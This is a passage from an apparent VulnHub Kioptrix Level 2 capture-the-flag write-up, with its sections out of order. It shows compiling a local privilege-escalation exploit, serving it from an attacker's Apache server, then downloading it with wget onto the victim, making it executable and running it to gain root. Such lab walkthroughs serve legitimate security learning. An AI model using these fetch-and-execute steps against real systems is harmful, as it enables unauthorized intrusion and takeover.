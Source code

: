 So, let's go ahead and open up a text editor on Kali, copy over the exploit script, save it, and then compile it!

```console
root@kali:~# gedit priv.c
root@kali:~# gcc -o priv priv.c
```

At this point what I will do, is move over the exploit to __/var/www/html__ and start up my apache server. This way I can use [wget](https://www.gnu.org/software/wget/) from the victims machine to download the compiled exploit from my computer.

```console
root@kali:~# mv priv /var/www/htlm
root@kali:~# cd /var/www/html
root@kali:/var/www/html# ls
index.html  priv
root@kali:/var/www# service apache2 start
```

Once we have apache running, let's go back to the victim’s machine, change directory to __/tmp__, download the exploit, give the exploit executable permissions, and then run it!

```console
bash-3.00$ cd /tmp
bash-3.00$ wget http://192.168.1.3/priv
bash-3.00$ ls
priv
bash-3.00$ chmod 755 priv
bash-3.00$ ./priv
sh: no job control on this shell
bash-3.00$  id 
uid=0(root) gid=0(root) groups=48(apache)
bash-3.00$  whoami
root
```

## Closing:
Boom! Kioptrix 2 - rooted! 

As I already have said before in my Kioptrix 1 write-up, each level gets a little harder and more complex. This level covered basic web exploitation via SQL & Command Injection. I suggest you read up on familiarize yourself with some basic Web Exploitation Techniques, as well as Reverse Shells - since we will be using them more often in the upcoming Kioptrix VM's.

Stay tuned for more write-ups, and as always - thanks for reading!


## Description:
This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways than one to successfully complete the challenges.

## The Hack:
As I have stated in many previous VulnHub write-ups, the first step in tackling a vulnerable VM (or first step in a pentest) is to carry out Intelligence Gathering. So let's start off with running `netdiscover` to find out what devices on our network.
